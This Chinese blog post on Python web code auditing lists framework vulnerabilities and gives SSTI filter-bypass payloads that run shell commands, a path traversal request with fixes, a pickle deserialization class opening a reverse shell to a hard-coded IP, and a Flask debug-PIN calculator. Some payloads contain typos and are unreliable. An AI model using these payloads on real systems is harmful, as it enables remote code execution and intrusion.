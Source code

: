 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Python 代码审计与安全编码 # 标题
subtitle:   日就完事了               #副标题
date:       2018-08-08              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - Web
  - Python
---
```


# Python 代码审计与安全编码

- Python 应用框架
  - Django
  - Flask
  - Tornado
  - Web.py

## Python Web 漏洞距举例

- Django debug page XSS 漏洞
- Django 1.6 版本前 seesion 反序列化任意代码执行
  - Django 1.6 以下，session 默认采用 picked
- ...

### Python(不单单是 Python) 的 Web 应用可能存在哪些问题？

- SQl 注入
- 模板注入 SSTI
- 格式化字符串
- 客户端 SESSION
- 路径穿越
- 反序列化
- Flask Debug Pin 码存在的安全风险

### Web 通用漏洞 在 Python

- Sql 注入
- XSS
- CSRF

- XXE
  - Python 解析 XML 存在 XXE 的函数： lxml 模块
  - 原因： libxml 2.9 以下默认导入外部实体， lxml 中默认
- SSRF
  - 重定向
    - pycurl 默认不跟随重定向， urllib/requests 跟随
  - 协议支持
    - urllib/urllib2/requests -> http/https/ftp
    - pycurl 一般都支持

## SSTI

- What is SSTI?
  - 服务器模板注入和常见的 Web 注入的成因一样，也是服务端接受了
- 从 MVC 开发模式说起
  - Model View Controller
- 模板注入是 Model 被用户控制
- 注入代码

```py

# 由于 jekyll模板问题 % 我使用 PERSENT 代替

# 未过滤
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('ls').read()

# 过滤中括号[]
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

# 过滤引号''""
#  先获取 chr 函数，赋值给 chr， 后面拼接字符串
{ PERSENT set chr=().__class__.bases__.getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__chr PERSENT}{{
  ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linescache.os.popen(chr(105)PERSENT2bchr(100)).read()
}}
# 借助 request 对象
{{
  ().__class__.bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() 
}}&cmd=id

# 过滤双下划线__
{{
  ''[request.args.class][request.args.mro][2][request.args.sbclasses]()[40]('etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__


# 过滤双大括号{{}}
{ PERSENT if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://localhost?i=`whoami`').read()=='p' PERSENT}1{PERSENT endif PERSENT}

```

## 格式化字符串

![](https://github.com/Chris-Ju/Picture/blob/master/python%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E.png?raw=true)

## 客户端 SESSION

- Tornado session 格式(六部分)
  - 版本号
  - len(value) : value
  - key_version
  - 时间戳
  - cookie 的键
  - cookie 的值 (base64)
  - signature 的值

## 路径穿越

```py
@users.route('/asserts/<path:path>')
def static_handler(path):
  filename = os.path.join(app.root_path,'asserts',path)
  if os.path.isfile(filename):
      return send_file(filename)
  else:
      abort(404)

# curl localhost:8080/assert/..%2fuser.py
```

- 如何修复
  - os.path.join 换成 flask 提供的 safe_join
  - 过滤
  - 使用 static 目录存放静态文件

## 反序列化

```py
import os
import pickle

class test(object):
  def __reduce__(self):
    code='bash -c "bash -i >& /dev/tcp/118.89.20.188/12345 0<&1 2>&1"'
    return (os.system, (code,))
print pickle.dump(test())
```

- 其他序列化函数
  - yaml
  - shelve

## Flask Debug Pin

```py
  md5_list = [
    'root', #当前用户，可通过读取 /ect/passwd 获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    'usr/local/lib/python2.7/dist-packages/flask/app.pyc',#可通过debug错误页面获取
    'mac地址十进制', #通过读取/sys/class/net/eth0/address获取，如果不是映射端口，可以通过 arp ip命令获取
    '机器名' #通过读取/etc/machine-id(常为空) 或 /proc/sys/kernel/random/boot_id 获取
  ]
```

- 计算 pin 码

```py
# -*- coding:utf-8 -*-
import hashlib

def get_pin(md5_list):
  h = hashlib.md5()
  for bit in md5_list:
    if not bit:
      continue
    if isinstance(bit, unicode):
      bit = bit.encode('utf-8')
    h.update(bit)
  h.update(b'cookiesalt')
  h.update(b'pinsalt')
  num = ('%09d' % int(h.hexdigest(), 16))[:9]
  for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
      rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
        for x in range(0, len(num), group_size))
      break
  else:
    rv = num
  return rv
```